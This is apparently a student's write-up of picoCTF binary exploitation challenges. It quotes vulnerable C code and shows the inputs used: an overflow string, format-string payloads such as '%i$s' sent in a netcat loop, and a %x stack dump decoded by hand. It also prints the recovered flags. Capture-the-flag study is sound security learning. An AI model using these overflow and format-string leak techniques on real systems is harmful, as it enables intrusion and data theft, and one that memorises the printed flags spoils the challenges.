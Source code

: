 # Binary Exploitation
<br>

## Challenge-1 Buffer Overflow 0

### Process
Looking at the code we see that 

    void vuln(char *input){
        char buf2[16];
        strcpy(buf2, input);
        }

thus our buffer can only be 16 characters long at a time.

So I just run the netcat instance ` nc saturn.picoctf.net 51447`
and give the input `aaaaaaaaaaaaaaaaaaaaaaaaaaaa`

and get the overflowed flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`
<br>

### Things Learned
what is `#define`?
 It is used to define a preprocessor directive that is used to define macro in C.

what is `signal function`
This function is used to set the custom handler for different signal outputs in the program
In this challenge specifically we use it set the handler for `SIGSEGV` or `segmentation fault`

what is `setresgid(gid, gid, gid)`
This is used to set the effective id as our id. We do this so that we can get effective permissions to work with different files and programs
<br>

### Mistakes I made
I had to learn everything in the code as i didn't what is going on


<br><br>

## Challenge-2 format string 0

### Process
As i am observing the main function of the format-string-0.c file. I come acoss this 
    
    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burgeryet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n","Patrick is still hungry!","Try to serve him something of larger size!");
    fflush(stdout);

here, we have see a menu containing 3 options, then our condition statement check if our input is in the menu or not. Then if the input is 2*BUFFSIZE(32) it turns to bob function

Now the `Gr%114d_Cheese` option will be have 0 preceeded by 114 empty spaces thus this will lead to else condition

Now coming to bob fucntion we have something similar

    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }

NOw if you use the `Cla%sic_Che%s%steak` will lead to segmentation fault. Thus leading to output of flag

Giving me the flag `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}`
<br>

### Things I learned
what is a string vulnerability
How we can use this string vulnerabilities to get the flag
<br>

### Mistakes I made
none for this one
<br><br>

## Challenge-3 flag leak
In this challenge, one thing your will notice is, there is no concept for our buffer handling or segmentation fault

Also in the `vuln2.c` file (which is our soure), whatever we add is given back to us as the output so what if we manage to print out in the memory address where our flag is getting stored like in 

    void readflag(char* buf, size_t len) {
        FILE *f = fopen("flag.txt","r");
        if (f == NULL) {
            printf("%s %s", "Please create 'flag.txt' in this directory with your","own debugging flag.\n");
            exit(0);
        }
    
        fgets(buf,len,f); // size bound read
    }

So in the input I try to add memory holder `%i$s` and as an output i get the string at the ith string compartment
    
    snorlux@MrinalPC:/mnt/f/Cryptonite_taskphase2_Mrinal/Binary$ %4$s
    echo "%$i\$s" | nc saturn.picoctf.net 59356
    Tell me a story and then I'll tell you one >> Here's a story -
    ����������؉ǀ�u��^H�C�p��s��u��C

Thus we can get hidden strings and can even find the flag at the correct positional string compartment

So to go through all of them i use the command
    for i in {0..99}; do echo "%$i\$s" | nc saturn.picoctf.net 64716; done

And get the flag `picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`
<br>

### Things i learned
You can access the string at specific positional order in the file using `%i$s`

You can write code in the wsl shell itself and pipe the output to a specifc file

### Extra challenges
### Format strings 1
OK it is same as the flag leak but the trick of using the fucntion wasn't working
So i manually put 100 `%x` to get the string in hex form
then i wrote the code to remove the commas and decode everything as hex to ascii taken 2 at a time

Thus in the mix of unidentifiable string I got
`{FTCocip5_14m1n44x4_31y75b_g41f_}f89b7d`

Converting this from little endian to normal text I get the flag
`picoCTF{4n1m41_57y13_4x4_f14g_b5d7b98f}`